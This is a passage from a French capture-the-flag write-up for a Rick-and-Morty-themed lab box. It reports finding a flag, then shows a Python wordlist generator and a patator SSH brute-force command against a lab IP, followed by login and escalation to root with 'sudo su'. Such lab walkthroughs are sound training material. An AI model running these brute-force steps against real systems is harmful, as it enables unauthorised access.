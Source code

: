 Ça y est ! Vous aussi vous faites la relation avec ce que ce bon vieux Morty a dit ?
 Très bien réessayons mais avec comme premiers arguments 131333.  
![decrypt_succes](/images/decrypt_succes.png)  

On touche au but ! En plus d'avoir trouvé  le flag
 <span style="color:blue"> *{And Awwwaaaaayyyy We Go!}*</span> qui nous fait avoir
 20 points en plus et donc arriver a 100 / 130 points ; il nous explique même
 comment se connecter avec RickSanchez en [ssh](https://linux.die.net/man/1/ssh) !  

![Wiki_rick](/images/Wiki_rick.png)  
Comme Tout le monde le sait le groupe de Rick était
 <span style="color:red">`The Flesh Curtains`</span>,
 mais dans le doute on a quand même vérifier sur
 l'internet. Il ne nous reste plus qu'à écrire un
 petit script.  
```
cat > generator_mdp.py
import string
grp_name = ("The", "Flesh", "Curtains")
with open("mdp.txt", 'w') as f:
    for l in string.uppercase:
        for d in string.digits:
            for g in grp_name:
                f.write(l + d + g + '\n')
```
Maintenant qu'on a notre script on va générer toutes les combinaisons de
 mot de passe puis essayer de retrouver le mot de passe grâce à
 [patator](https://tools.kali.org/password-attacks/patator).  
```
python generator_mdp.py ; patator ssh_login user=RickSanchez host=192.168.1.14 port=22222 password=FILE0 0=mdp.txt -x ignore:mesg='Authentication failed.'
```
Et on a notre mot de passe. Essayons de nous connecter en
    [ssh](https://linux.die.net/man/1/ssh) en rentrant ce mot de passe  
![ssh_rick_connection](/images/ssh_rick_connection.png)  
```
ssh -p 22222 RickSanchez@192.168.1.15
```
Maintenant que nous sommes OFFICIELLEMENT RickSanchez nous pouvons lancer la
 commande `sudo su` avec le même mot de passe et ainsi passé Root.  
